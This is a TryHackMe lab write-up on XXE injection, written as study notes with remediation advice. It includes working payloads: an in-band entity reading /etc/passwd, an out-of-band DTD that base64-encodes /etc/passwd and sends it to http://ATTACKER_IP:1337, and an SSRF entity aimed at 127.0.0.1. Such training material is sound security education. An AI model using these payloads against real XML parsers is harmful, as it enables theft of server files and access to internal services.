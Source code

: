 # XXE (XML External Entity) — TryHackMe - Web Application Pentesting  
**Date:** 2025-10-25  
**Type:** TryHackMe / Classroom  
**Scope:** Lab / Authorized only

---

## 1) Context  
Exploiting XML External Entities (XXE).  
XXE is a vulnerability where an application parses attacker-controlled XML that declares external entities. If the XML parser is misconfigured, the attacker can force the server to read local files, make internal HTTP requests (SSRF), or even leak data out-of-band.

## 2) Initial hypothesis  
I knew XXE had something to do with “reading files via XML,” but I didn’t fully get:
- What it means for a server to “parse” XML.
- How `&xxe;` could become `/etc/passwd`.
- Why DTDs (`<!DOCTYPE ...>`) matter.

Hypothesis I tested: if the XML parser expands external entities, I should be able to get sensitive content from the filesystem or internal network, even without code execution.

## 3) Tools used  
- Burp Suite (to intercept/modify XML requests)  
- Simple local HTTP listener (for OOB-style thinking)  
- Browser devtools / manual crafted XML  
— No credentials, secrets, or internal hostnames are included here.

## 4) Approach (high level)  
- Reviewed how XML is structured (elements, attributes, entities).  
- Looked at how DTDs define entities and how those entities get expanded.  
- Injected a custom `<!DOCTYPE>` block that declares an external entity pointing to a sensitive resource (like `/etc/passwd`).  
- Sent that XML to the target and observed how the server responded:
  - If content comes back → in-band XXE confirmed.
  - If not, reasoned about out-of-band (OOB) exfiltration via forcing the server to call back to an attacker-controlled server.  
- Explored how XXE can pivot into SSRF by referencing internal URLs instead of local files.

## 5) Results / Evidence (sanitized)  
### XML / DTD fundamentals
- XML is hierarchical data (`<tag>value</tag>`).  
- DTD (Document Type Definition) can declare rules and entities for that XML.  
- Entities are placeholders like variables. When the parser sees `&name;`, it swaps it for whatever `name` was defined as.

### Key moving parts of XXE
<!ENTITY xxe SYSTEM "file:///etc/passwd">
- Defines an entity called xxe whose value is the content of /etc/passwd.
- Entity usage in the body:
    - <name>&xxe;</name>
- Tells the parser to replace &xxe; with the actual contents of that file.
- Parser behavior:
    - If external entity resolution is allowed, the parser reads /etc/passwd and injects its content.
    - If the app reflects <name> in the HTTP response, the file content is leaked — in-band XXE.
- Corrected in-band XXE payload (sanitized)
''' 
<?xml version="1.0"?>
<!DOCTYPE contact [
  <!ELEMENT contact ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
'''

- <!DOCTYPE contact [...]> → DTD explicitly tied to root element <contact>...</contact>
- <!ELEMENT contact ANY> → accept any content inside <contact>
- <!ENTITY xxe SYSTEM "file:///etc/passwd"> → define the external entity
- <name>&xxe;</name> → trigger expansion

- Observed effect (conceptual):
    - The app tried to resolve the entity and include /etc/passwd in its response. That confirmed in-band XXE — direct leakage of local file content.

### Out-of-band (OOB) XXE
- If the app doesn’t reflect anything back, you can still exfiltrate data using a remote DTD and an attacker-controlled server.
- Malicious external DTD:
'''
    <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
    %oobxxe;
'''

- Main XML referencing it:
'''
    <!DOCTYPE contact SYSTEM "http://ATTACKER_IP:1337/payload.dtd">
    <contact>&exfil;</contact>
'''

- What happens:
    - %cmd reads /etc/passwd and base64-encodes it.
    - %oobxxe builds an entity that points to your server.
    - The parser fetches http://ATTACKER_IP:1337/?data=<base64_of_/etc/passwd> — exfiltrating data even if it’s not reflected.
    - You read it from your listener logs.
- This is OOB XXE — indirect exfiltration through an outbound request.

### SSRF via XXE
- You can turn XXE into SSRF by referencing internal URLs instead of local files.
'''
    <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/internal/endpoint">
'''

- If the parser resolves this, the vulnerable server sends a request to its internal network. This can expose metadata endpoints, internal dashboards, or other private services.

## 6) Recommended remediation
- Disable external entity resolution / DTDs in the XML parser.
- Use hardened libraries: defusedxml (Python), secure XmlReaderSettings (C#), secure DocumentBuilderFactory (Java) with appropriate flags.
- Validate input and reject XML containing <!DOCTYPE> or external entities.
- Restrict network egress from apps that parse XML to prevent SSRF / OOB.
- Enforce least privilege: the service parsing XML should have minimal FS and network access.
- Keep parsers updated and include XXE cases in pentests, especially for SOAP/XSLT/legacy endpoints.

## 7) Lessons learned
- XXE is entity expansion abuse — &xxe; gets replaced by what it points to.
- The DTD’s root (<!DOCTYPE contact>) must match the document’s root element (<contact>). Mismatch breaks the attack.
- Two attack modes:
    - In-band: response contains the expanded data.
    - Out-of-band: data is exfiltrated via network callbacks.
- XXE can act as SSRF — forcing internal HTTP calls.
- <!ELEMENT contact ANY> helps accept payloads by relaxing structure.
- Disabling DTDs/entity resolution is the main remediation.

---

## 8) Links / Resources
- TryHackMe — Web Application Pentesting (XXE module)
- OWASP XXE Prevention Cheat Sheet
- Secure XML parser configuration guides (Java, .NET, Python)
- Personal Notion write-up (public, if published)

---